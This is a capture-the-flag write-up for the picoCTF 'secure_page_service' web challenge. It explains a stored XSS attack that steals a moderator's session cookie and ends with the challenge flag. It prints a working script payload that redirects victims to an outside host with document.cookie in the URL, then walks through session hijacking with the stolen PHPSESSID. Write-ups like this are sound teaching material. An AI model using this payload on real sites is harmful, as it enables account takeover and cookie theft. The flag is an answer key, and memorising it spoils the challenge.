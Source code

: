 ## secure_page_service - 100 (Web Exploitation)
####Writeup by Oksisane

Created: 2014-11-08 00:54:47

Last modified: 2014-11-09 23:09:56


Created: 2014-11-08 00:54:47

Last modified: 2014-11-09 23:02:58


Created: 2014-11-08 00:54:47

Last modified: 2014-11-09 23:02:51


Created: 2014-11-08 00:54:47

Last modified: 2014-11-09 23:02:46


Created: 2014-11-08 00:54:47

Last modified: 2014-11-09 23:01:37


### Problem

The bad guys have hidden their access codes on an [anonymous secure page service](http://sps.picoctf.com/). Our intelligence tells us that the codes was posted on a page with id `43440b22864b30a0098f034eaf940730ca211a55`, but unfortunately it's protected by a password, and only site moderators can view the post without the password. Can you help us recover the codes?

### Hint

What happens if you put HTML into a page?

## Answer


### Overview

Exploiting XSS vulnerabilities to get Admin user's session cookie.

### Details
Cross-site scripting (commonly referred to as XSS) is a type of web exploit which involves an attacker being able to inject client side scripting into pages viewable by other users. First register an account and log in. Then make a simple page such as ```<h1>Hi</hi>``` which produces <h1>Hi</h1>. From this it is clear that secure_page_service is not filtering any html we put into a page and instead is interpreting it as normal, an XSS vulnerability! But how can we exploit this? The key here is the Report to Moderator button. We can setup a page that records the moderator's session cookie and then lure them to the page by reporting it. Once we have their session cookie we can preform a [session hijacking](http://en.wikipedia.org/wiki/Session_hijacking) attack (replace our session with that of the moderators), so that secure_page_service will think we are the moderator and override the password check when we browse to page `43440b22864b30a0098f034eaf940730ca211a55`.
So now we know what to do once we have the moderator cookie, but how do we get it?

We can form a page such as
```html
<script>
location.href=("http://ehsandev.com/pico.php?c="+document.cookie)
</script>
```
When a user browses to this page they are redirected to a page on a server (in this case ehsandev.com) with their cookies in the url. The attacker can then simply view the log of the request made to the servers and copy out the session id. In this example, when we hit the report button the moderator would be redirected to `http://ehsandev.com/pico.php?c=PHPSESSID=02b8t6vqgvfigv4at2ovp3e0g6` where `02b8t6vqgvfigv4at2ovp3e0g6` is the session cookie we are looking for and would appear in the logs of this site. Finally, we have to manually set the admin cookie to our `PHPSESSID` cookie using a Chrome extension such as [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) or a Firefox extension such as [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/). Then, we view the page `43440b22864b30a0098f034eaf940730ca211a55` and we get our flag!

### Flag
    wow_cross_site_scripting_is_such_web

